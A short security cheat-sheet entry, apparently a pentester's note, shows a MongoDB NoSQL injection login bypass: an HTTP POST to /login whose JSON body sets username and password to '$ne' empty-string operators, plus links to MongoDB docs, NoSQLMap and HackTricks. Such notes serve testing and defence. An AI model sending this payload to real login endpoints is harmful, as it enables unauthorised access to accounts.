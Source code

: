 ## MongoDB login bypass examples

```bash
POST /login HTTP/1.1
...
Content-Type: application/json
...

{
    "username":{
        "$ne":""
    },
    "password":{
        "$ne":""
    }
}


```


## Links

https://www.mongodb.com/docs/manual/reference/operator/query/ne/

https://github.com/codingo/NoSQLMap

https://book.hacktricks.xyz/pentesting-web/nosql-injection